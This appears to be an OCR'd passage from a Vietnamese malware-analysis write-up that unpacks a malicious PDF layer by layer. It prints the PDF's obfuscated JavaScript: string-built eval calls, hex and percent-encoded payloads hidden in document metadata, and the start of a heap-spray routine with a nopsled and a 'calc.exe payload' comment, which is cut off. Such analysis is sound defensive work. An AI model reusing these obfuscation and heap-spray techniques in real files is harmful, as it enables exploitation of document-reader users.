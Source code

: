 ```js
  S$ += "e";
  $S = this.info.title;
}
var S5 = "";
if (app.plugIns.length > 3) {
  SS += "a";
  var arr = $S.split(/U_155bf62c9aU_7917ab39/);
  for (var $ = 1; $ < arr.length; $++) {
    S5 += String.fromCharCode("0x" + arr[$]);
  }
  SS += "l";
}
if (app.plugIns.length >= 2) {
  app[SS](S5);
}
```

JS script này khởi tạo 3 biến là `SS = "eval"`, `$5 = info`, `S$ = title`. Vẫn còn một payload nữa được chứa ở `info.title` và sau đó được split với delimiter là `U_155bf62c9aU_7917ab39` rồi được decode hex sau đó đưa vào `S5` rồi sẽ chạy `app[SS](S5);` = `app.eval(S5);`

Muốn biết `info.title` được lưu ở đâu ta quay trở lại `pdfstreamdumper` thì sẽ thấy có rất nhiều `U_155bf62c9aU_7917ab39` trong phần text vậy là ta sẽ phải tạo script để decode đoạn text đó

Chạy file `decr.py` ta được

```javascript
____SS = 1;
____$5 = ____SSS[____SS].subject;
____$S = 0;
____$ = ____$5.replace(/X_17844743X_170987743/g, "%");
____S5 = ____SSS[____$S].subject;
____$ += ____S5.replace(/89af50d/g, "%");
____$ = ____$.replace(/\n/, "");
____$ = ____$.replace(/\r/, "");
____S$ = unescape(____$);
app.eval(____S$);
```

Lại tiếp tục là một script để decode payload được mã hoá, lần này là thay thế các chuỗi `X_17844743X_170987743` và `89af50d` thành `%` và bỏ `\n` `\r` . Trong stream số 9 của file pdf cũng có rất nhiều chuỗi `X_17844743X_170987743` và stream 7 có `89af50d`. Ta tiếp tục thực hiện decode

Chạy file `decr2.py` Ta được 

```javascript
var w = new String();
var c = app;

function s(yarsp, len) {
        while (yarsp.length * 2 < len) {
                yarsp += yarsp;
                this.x = false;
        }
        var eI = 37715;
        yarsp = yarsp.substring(0, len / 2);
        return yarsp;
        var yE = 18340;
}
var m = new String("");

function cG() {
            var chunk_size, payload, nopsled;
            
            chunk_size = 0x8000;
			// calc.exe payload
```